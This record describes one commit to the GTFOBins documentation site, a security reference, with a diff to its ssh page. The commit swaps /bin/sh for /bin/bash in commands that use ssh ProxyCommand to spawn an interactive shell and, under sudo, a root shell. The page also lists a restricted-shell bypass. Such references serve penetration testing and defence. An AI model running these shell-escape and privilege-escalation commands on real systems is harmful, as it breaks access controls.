

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide and 900 px high, scrolled down 604 px. Shown: the part 715-872 px from the top of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix ssh execute

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -4,7 +4,7 @@ functions:
     - description: Reconnecting may help bypassing restricted shells.
       code: ssh localhost $SHELL --noprofile --norc
     - description: Spawn interactive shell through ProxyCommand option.
-      code: ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
+      code: ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
   upload:
     - description: Send local file to a SSH server.
       code: |
@@ -26,5 +26,5 @@ functions:
         ssh -F $LFILE localhost
   sudo-enabled:
     - description: Spawn interactive root shell through ProxyCommand option.
-      code: sudo ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
+      code: sudo ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
 ---
```
